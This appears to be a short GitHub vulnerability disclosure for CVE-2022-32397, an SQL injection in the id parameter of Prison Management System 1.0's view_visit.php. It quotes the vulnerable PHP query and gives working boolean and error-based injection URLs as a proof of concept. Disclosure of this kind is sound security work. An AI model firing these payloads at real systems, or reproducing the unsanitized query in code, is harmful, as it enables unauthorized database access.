 # CVE-2022-32397
## Info
#### Prison Management System 1.0 - SQL Injection<br>
#### Vendor Homepage : https://www.sourcecodester.com/ <br>
#### Software Link : https://www.sourcecodester.com/php/15368/prison-management-system-phpoop-free-source-code.html

[+] Vulnerability : SQL Injection<br>
[+] Vulnerability Location : `$_GET['id']` in `/pms/admin/visits/view_visit.php:4`
```php
$qry = $conn->query("SELECT v.*, i.code, concat(i.lastname,', ', i.firstname, coalesce(concat(' ', i.middlename), '')) as `inmate` from `visit_list` v inner join inmate_list i on v.inmate_id = i.id where v.id = '{$_GET['id']}' ");
```

## PoC
- Payload : 
```
# Error Based
http://localhost/pms/admin/visits/view_visit.php?id=1'/**/-/**/if(database()='pms_db',0,1)%23
```
- True : 
`http://localhost/pms/admin/visits/view_visit.php?id=1'/**/-/**/if(database()='pms_db',0,1)%23`
![True](./img/cve-2022-32397_true.png)
- False : 
`http://localhost/pms/admin/visits/view_visit.php?id=1'/**/-/**/if(database()='wrong',0,1)%23`
![False](./img/cve-2022-32397_false.png)